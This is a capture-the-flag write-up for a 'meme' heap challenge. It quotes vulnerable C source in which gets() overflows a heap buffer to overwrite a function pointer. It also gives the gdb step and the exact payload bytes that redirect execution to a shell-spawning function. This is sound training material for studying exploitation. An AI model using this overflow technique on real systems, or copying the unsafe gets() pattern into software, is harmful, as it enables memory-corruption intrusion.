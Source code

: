 ## Overview

We are given a binary and a source code. Upon reading the source, one should notice some fishy parts, namely
```c++
void edit_meme(){
	unsigned int idx;
	printf("Index: ");
	idx = read_int();
	if(memes[idx] == NULL){
		puts("There's no meme there!");
		return;
	}
	printf("Enter meme content: ");
	gets(memes[idx]->content); //BIG MISTAKE
	puts("Done!");
}
```
that dreaded ```gets()``` function can be exploited, notice that:
```c++
void new_meme(){
	unsigned int size;
	printf("Enter meme size: ");
	size = read_int();
	if(size > 0x200){
		puts("Please, noone wants to read the entire bee movie script");
		exit(-1);
	}
	int i = 0;
	while(memes[i] != NULL && ++i < 8);
	if(i == 8){
		puts("No more memes for you!");
		exit(-1);
	}
	memes[i] = malloc(8);
	memes[i]->func = &my_print; //EXPLOITABLE
	memes[i]->content = malloc(size);
	printf("Enter meme content: ");
	fgets(memes[i]->content, size, stdin);
	puts("Done!");
}
```
```memes->func``` contains an pointer to a funtion... **any** function. Also notice that every ```memes``` object is only allocated 8 bytes of data
```c++
void EZ_WIN()	{
	puts("EAAAAAAAAAAAASYYYYYYYYYYYYY");
	system("/bin/sh");
	exit(0);
}
```
The ```EZ_WIN()``` function is probably the function we're after, its not referenced anywhere on the program
```c++
void print_meme()	{
	unsigned int idx;
	printf("Index: ");
	idx = read_int();
	if(memes[idx] == NULL)	{
		puts("There's no meme there!");
		return;
	}
	(*(memes[idx]->func))(memes[idx]->content);
}
```
We can use the ```print_meme()``` function to run it

## Solution

Using a linux terminal, create an executable and run it in gdb
```bash
$ chmod +x ez 
```
then
```bash
$ gdb ./ez
```
all you need is the address of the ```EZ_WIN()``` function to overwrite
```bash
(gdb) info address EZ_WIN
Symbol "EZ_WIN" is at 0x4014a0 in a file compiled without debugging
```
Perfect! now connect to the remote program and create two new memes object, then edit the first one so that it overflows to rewrite the function used in the second one (i.e. "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xa0\x14\x40"), print the second one, then use ```cat flag.txt``` to get the flag.
##### Solved by Cheesewaffle
